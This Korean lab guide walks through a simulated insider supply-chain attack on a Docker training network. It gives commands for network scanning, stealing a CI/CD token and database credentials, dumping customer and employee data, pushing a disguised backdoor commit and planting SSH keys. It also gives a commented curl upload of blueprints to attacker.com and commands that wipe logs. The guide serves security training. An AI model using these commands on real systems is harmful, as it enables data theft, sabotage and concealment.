

불만을 품은 내부 개발자의 공급망 공격 시뮬레이션 — 정상 업무 권한만으로 프로덕션 서버에 백도어를 삽입하고 기업 기밀을 유출하는 전 과정을 다룹니다.
| 구분 | 기존 시나리오 (외부 공격) | 새 시나리오 (내부자 위협) |
|---|---|---|
| 공격자 | 외부 해커 | 내부 불만 직원 |
| 시작점 | Spring Web (외부 진입점) | Employee Desktop (내부) |
| 초기 접근 | CVE-2022-22965 익스플로잇 | 정상 업무 권한 사용 |
| 주요 기법 | RCE → 횡이동 → DB탈취 | 권한 남용 → 공급망 공격 → 기밀 유출 |
| 최종 목표 | 고객 DB 데이터 탈취 | 프로덕션 백도어 + 제품 설계도 유출 |
| MITRE ATT&CK | T1190 외부 앱 익스플로잇 |
T1078 유효 계정 사용 |
이 실습 환경은 Docker Compose로 동작합니다. 각 팀원이 동일한 서버를 자신의 환경에서 배포하기 때문에 IP 주소가 환경마다 다릅니다. 아래 안내를 따라 자신의 IP를 확인한 뒤 시나리오 명령어에 적용하세요.
Docker Compose를 실행한 터미널(호스트 PC)에서 아래 명령어를 실행하세요. Docker 네트워크 이름은 01testserver_default 입니다. 폴더 이름이 다르면 네트워크 이름도 달라질 수 있으니 docker network ls로 먼저 확인하세요.
# 전체 컨테이너 IP 한번에 확인
docker network inspect 01testserver_default \
--format '{{range .Containers}}{{.Name}}: {{.IPv4Address}}{{"\\n"}}{{end}}'
또는 특정 컨테이너만 확인:
# 개별 컨테이너 IP 확인 (예: Employee Desktop)
docker inspect 01testserver-employee-desktop-1 \
--format '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
출력 예시 — 아래는 참고용이며, 자신의 환경에서 직접 확인해야 합니다:
# 출력 예시 (IP는 환경마다 다름)
01testserver-gitea-1: 172.18.0.2/16
01testserver-spring-web-1: 172.18.0.3/16
01testserver-struts-web-1: 172.18.0.4/16
01testserver-struts-db-1: 172.18.0.5/16
01testserver-nas-1: 172.18.0.6/16
01testserver-spring-db-1: 172.18.0.7/16
01testserver-teamcity-server-1: 172.18.0.8/16
01testserver-teamcity-agent-1: 172.18.0.10/16
01testserver-employee-desktop-1: 172.18.0.X/16
docker-compose.yml의 각 서비스에 platform: linux/amd64를 추가해야 합니다. (이미 수정된 파일을 사용 중이면 생략)
# docker-compose.yml 수정 예시 (각 서비스에 추가) services: spring-web: platform: linux/amd64 # ← 이 줄 추가 image: spring-web:latest ... spring-db: platform: linux/amd64 # ← 이 줄 추가 image: mysql:8.0 ...
Docker Desktop → Settings → General → Use Rosetta
01.TestServer 폴더로 이동 후: docker compose up -d
platform 옵션이 필요 없습니다. 기본 docker-compose.yml 그대로 사용하세요.
01.TestServer 폴더로 이동 후: docker compose up -d
C:\dev\ 등 로컬 드라이브에 복사해서 실행하세요.
아래 Docker 서비스 이름과 포트는 모든 환경에서 동일합니다. 호스트에서 접근할 때는 localhost:포트로, 컨테이너 간 내부 통신에서는 확인한 IP를 사용하세요.
| 서비스 | Docker 서비스명 | 컨테이너 포트 | 호스트 포트 | 용도 |
|---|---|---|---|---|
| Employee Desktop | employee-desktop | 6901 | 6901 | VNC 웹 (브라우저에서 접속) |
| Gitea | gitea | 3000 | 3000 | Git 소스코드 관리 |
| TeamCity Server | teamcity-server | 8111 | 8111 | CI/CD 웹 UI |
| Spring Web | spring-web | 8080 | 8080 | Spring 웹 애플리케이션 |
| Struts Web | struts-web | 8080 | 9080 | Struts 웹 애플리케이션 |
| Spring DB | spring-db | 3306 | 3307 | MySQL (고객 데이터) |
| Struts DB | struts-db | 3306 | 3308 | MySQL (직원 데이터) |
| NAS | nas | 445 | — | SMB 파일 공유 |
| TeamCity Agent | teamcity-agent | — | — | 빌드 실행 에이전트 |

| 서비스 | Docker 서비스명 | 포트 | 접근 방식 |
|---|---|---|---|
| NAS | nas | 445 | ● 직접 접근 SMB 자동 마운트 |
| Gitea | gitea | 3000 | ● 직접 접근 소스코드 push 권한 |
| TeamCity | teamcity-server | 8111 | ● 직접 접근 웹 UI + API |
| Spring DB | spring-db | 3306 | ● 크리덴셜 획득 후 소스코드에서 추출 |
| Struts DB | struts-db | 3306 | ● 크리덴셜 획득 후 소스코드에서 추출 |
| Spring Web | spring-web | 8080 | ● CI/CD 간접 파이프라인 통해 배포 |
| Struts Web | struts-web | 8080 | ● CI/CD 간접 파이프라인 통해 배포 |
| TeamCity Agent | teamcity-agent | — | ● CI/CD 간접 빌드 실행 시 |
네트워크 테이블에서 IP를 제거했습니다. Docker를 배포할 때마다 IP가 바뀌기 때문입니다. 아래 명령어로 자신의 환경에서 확인하세요:
# 호스트 터미널에서 실행
docker network inspect 01testserver_default \
--format '{{range .Containers}}{{.Name}}: {{.IPv4Address}}{{"\\n"}}{{end}}'
내부자의 시작 환경 확인 — Desktop 권한, NAS 마운트, 네트워크 구조 파악
# Desktop 환경에서 접근 가능한 리소스 확인 whoami && id ls -la /home/kasm-user/ ls -la /home/kasm-user/project/ ls -la /home/kasm-user/nas/ # 네트워크 확인 — 어떤 내부 서비스가 보이는지 for i in $(seq 1 15); do ping -c 1 -W 1 172.18.0.$i 2>/dev/null | \ grep "bytes from" && \ echo " → 172.18.0.$i alive" done # NAS 마운트 확인 mount | grep cifs df -h | grep nas
NAS에 마운트된 제품 설계도 21개 파일과 TeamCity 액세스 토큰 탈취
# NAS 파일 확인 — 자동 마운트되어 있으므로 그냥 ls ls -la /home/kasm-user/nas/ ls -la /home/kasm-user/nas/keys/ ls -la /home/kasm-user/nas/product_blueprint/ # TeamCity 액세스 토큰 확인 — 이것이 핵심! cat /home/kasm-user/nas/keys/teamcity_access_token # 제품 설계도 외부 전송 시뮬레이션 # tar czf /tmp/blueprints.tar.gz /home/kasm-user/nas/product_blueprint/ # curl -X POST -F "file=@/tmp/blueprints.tar.gz" http://attacker.com/upload # 파일 목록 기록 (보고서용) find /home/kasm-user/nas/ -type f -exec ls -la {} \;
Employee Desktop의 프로젝트 소스코드에서 DB 접속 정보 추출
# Spring 서버 소스코드에서 DB 크리덴셜 검색 cd /home/kasm-user/project/spring-server find . -name "application.properties" -o -name "application.yml" | xargs cat grep -r "password" --include="*.properties" --include="*.yml" --include="*.xml" . grep -r "datasource" --include="*.properties" --include="*.yml" . # Struts 서버도 동일하게 cd /home/kasm-user/project/struts-server find . -name "*.properties" -o -name "*.xml" | xargs grep -l "password" grep -r "jdbc" --include="*.xml" --include="*.properties" . # Git 히스토리에서 과거 커밋의 크리덴셜도 검색 cd /home/kasm-user/project/spring-server git log --oneline git log -p --all -S "password" -- "*.properties" "*.yml" "*.xml"
소스코드에서 획득한 크리덴셜로 내부 DB 직접 접속 — 고객/직원 정보 탈취
# MySQL 클라이언트 설치 (Desktop에는 없을 수 있음) sudo apt-get update && sudo apt-get install -y mysql-client # Spring DB 접속 — 고객 정보 # ⚠️ [SPRING_DB_IP]를 자신의 환경에서 확인한 spring-db IP로 교체 mysql -h [SPRING_DB_IP] -u spring_user -pspring_pass spring_db \ -e "SHOW TABLES;" mysql -h [SPRING_DB_IP] -u spring_user -pspring_pass spring_db \ -e "SELECT * FROM users LIMIT 10;" # Struts DB 접속 — 직원 정보 # ⚠️ [STRUTS_DB_IP]를 자신의 환경에서 확인한 struts-db IP로 교체 mysql -h [STRUTS_DB_IP] -u struts_user -pstruts_pass struts_db \ -e "SHOW TABLES;" mysql -h [STRUTS_DB_IP] -u struts_user -pstruts_pass struts_db \ -e "SELECT * FROM employees LIMIT 10;" # 전체 DB 덤프 (유출 시뮬레이션) # mysqldump -h [SPRING_DB_IP] -u spring_user -pspring_pass spring_db > /tmp/spring_db_dump.sql # mysqldump -h [STRUTS_DB_IP] -u struts_user -pstruts_pass struts_db > /tmp/struts_db_dump.sql
[SPRING_DB_IP]와 [STRUTS_DB_IP]는 환경 설정 가이드에서 확인한 IP를 사용하세요. spring-db, struts-db 컨테이너 이름으로 찾으면 됩니다.
TeamCity 토큰으로 CI/CD 장악 → 소스코드 백도어 삽입 → 자동 배포
# Phase 2에서 확보한 TeamCity 토큰 사용 TOKEN=$(cat /home/kasm-user/nas/keys/teamcity_access_token) # TeamCity API로 프로젝트/빌드 구성 확인 # ⚠️ [TEAMCITY_IP]를 자신의 환경에서 확인한 teamcity-server IP로 교체 curl -H "Authorization: Bearer $TOKEN" \ http://[TEAMCITY_IP]:8111/app/rest/projects curl -H "Authorization: Bearer $TOKEN" \ http://[TEAMCITY_IP]:8111/app/rest/buildTypes # Gitea에서 소스코드 클론 (내부자는 이미 push 권한 보유) # ⚠️ [GITEA_IP]를 자신의 환경에서 확인한 gitea IP로 교체 cd /tmp git clone http://[GITEA_IP]:3000/test/spring-server.git cd spring-server # 백도어 코드 삽입 (정상 코드처럼 보이는 악성 코드) # 예: 새로운 REST 엔드포인트에 숨겨진 명령 실행 기능 # 변경사항 커밋 & 푸시 → webhook → TeamCity 빌드 → 배포 git add . git commit -m "fix: update security configuration" git push origin main # TeamCity에서 빌드 트리거 확인 curl -H "Authorization: Bearer $TOKEN" \ http://[TEAMCITY_IP]:8111/app/rest/builds?locator=running:true
[TEAMCITY_IP]와 [GITEA_IP]는 환경 설정 가이드에서 확인한 IP를 사용하세요.
SSH 키 등록, 백도어 계정 생성, 로그 삭제로 퇴사 후에도 접근 유지
# SSH 키 생성하여 서버에 등록 (패스워드 없이 접근 가능) ssh-keygen -t rsa -f /tmp/backdoor_key -N "" # Spring/Struts 서버에 SSH 키 등록 (SSH 비밀번호: testtest) # ⚠️ [SPRING_WEB_IP], [STRUTS_WEB_IP]를 자신의 환경에서 확인한 IP로 교체 sshpass -p testtest ssh-copy-id -i /tmp/backdoor_key.pub root@[SPRING_WEB_IP] sshpass -p testtest ssh-copy-id -i /tmp/backdoor_key.pub root@[STRUTS_WEB_IP] # Gitea에 새 계정 생성 (백도어 계정) # curl -X POST http://[GITEA_IP]:3000/api/v1/admin/users ... # 로그 정리 # history -c # > ~/.bash_history # 서버 측: cat /dev/null > /var/log/auth.log
[SPRING_WEB_IP]와 [STRUTS_WEB_IP]는 환경 설정 가이드에서 확인한 IP를 사용하세요.
| 출처 | 서비스 | 계정 | 비밀번호 | 획득 방법 |
|---|---|---|---|---|
| docker-compose.yml | Spring DB | spring_user | •••••••••• | 소스코드 분석 |
| docker-compose.yml | Spring DB (root) | root | •••••••• | 소스코드 분석 |
| docker-compose.yml | Struts DB | struts_user | •••••••••• | 소스코드 분석 |
| docker-compose.yml | Struts DB (root) | root | •••••••• | 소스코드 분석 |
| docker-compose.yml | SSH (Spring/Struts) | root | •••••••• | 소스코드/설정 분석 |
| docker-compose.yml | NAS SMB | smbuser | •••••••• | Desktop 자동 마운트 |
| NAS 파일 | TeamCity API | — | •••••••••••• | NAS 탐색 |
| buildAgent.properties | TeamCity Agent | — | •••••••••••••••• | 설정 파일 노출 |
| docker-compose.yml | VNC (Desktop) | — | •••••••• | 환경 변수 |
| 데이터 | 위치 | 파일 수 | 크기 | 위험도 |
|---|---|---|---|---|
| 제품 설계도 (칩, PCB, 서버보드) | NAS /data/product_blueprint/ | 21개 | ~14MB | Critical |
| ARM 아키텍처 매뉴얼 | NAS /data/product_blueprint/ | 1개 | 5.9MB | High |
| TeamCity 액세스 토큰 | NAS /data/keys/ | 1개 | 107B | Critical |
| Spring 소스코드 | Desktop /project/spring-server/ | Git repo | — | High |
| Struts 소스코드 | Desktop /project/struts-server/ | Git repo | — | High |
privileged: true 제거